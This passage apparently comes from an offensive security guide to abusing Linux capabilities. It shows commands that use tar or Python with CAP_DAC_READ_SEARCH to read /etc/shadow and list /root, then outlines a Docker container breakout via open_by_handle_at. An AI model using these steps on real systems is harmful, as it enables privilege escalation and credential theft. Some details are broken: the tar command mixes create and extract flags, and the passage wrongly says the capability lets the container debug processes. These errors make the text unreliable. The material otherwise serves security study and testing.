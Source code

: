 **Example with binary**

The binary will be able to read any file. So, if a file like tar has this capability it will be able to read the shadow file:

```bash
cd /etc
tar -czf /tmp/shadow.tar.gz shadow #Compress show file in /tmp
cd /tmp
tar -cxf shadow.tar.gz
```

**Example with binary2**

In this case lets suppose that **`python`** binary has this capability. In order to list root files you could do:

```python
import os
for r, d, f in os.walk('/root'):
    for filename in f:
        print(filename)
```

And in order to read a file you could do:

```python
print(open("/etc/shadow", "r").read())
```

**Example in Environment (Docker breakout)**

You can check the enabled capabilities inside the docker container using:

```
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

Inside the previous output you can see that the **DAC\_READ\_SEARCH** capability is enabled. As a result, the container can **debug processes**.

You can learn how the following exploiting works in [https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3](https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3) but in resume **CAP\_DAC\_READ\_SEARCH** not only allows us to traverse the file system without permission checks, but also explicitly removes any checks to _**open\_by\_handle\_at(2)**_ and **could allow our process to sensitive files opened by other processes**.
